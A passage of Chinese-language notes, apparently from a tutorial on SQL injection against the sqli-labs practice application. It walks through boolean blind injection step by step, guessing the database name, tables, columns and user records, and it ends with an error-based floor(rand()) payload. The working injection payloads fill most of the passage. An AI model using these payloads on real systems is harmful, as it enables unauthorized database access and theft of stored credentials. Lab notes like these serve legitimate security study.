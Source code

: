  - `length(database())`查看数据库名长度，`id=1' AND length(database())=8--+`回显正常。

 - `left(database(),1) > 'a'`猜测数据库名，`id=1' AND left(database(),1) > 'a' --+`回显正常。

--> `security`。

**2.获取数据库下的表**

利用**substr()**、**ascii()** 函数进行尝试。

```sql
ascii(substr((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 0,1), 1, 1)) = 101 #email
```

```sql
ascii(substr((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 0,1),1,1))>80 #二分法
```

第一个表应为`email`，获取第二个表`refers`(LIMIT 1,1)。

```sql
ascii(substr((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 1,1),1,1))>113--+ 
```

**3.获取表中的列**

利用`regexp`获取`user`表中的列。

```sql
# 测试表中是否包含 username 的列
1 = (SELECT 1 FROM information_schema.columns WHERE table_name='users' AND column_name regexp '^username' limit 0,1)--+
```

同理可判断`username`、`password`等列是否存在。

**4.获取表中的内容**

```sql
#获取user表中username列的第一条记录的第一个字符的ascii与68(D)进行比较 --> Dumb
ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))=68--+
```

### 报错盲注

```sql
UNION SELECT 1,count(*),concat(0x3a, 0x3a, (SELECT user()),0x3a,0x3a,floor(rand(0)*2))a FROM information_schema.columns GROUP BY a--+
```

![](/assets/images/move/1549204477936-e36325ca-df26-4a82-a86e-bb38f6a66f99.png)

---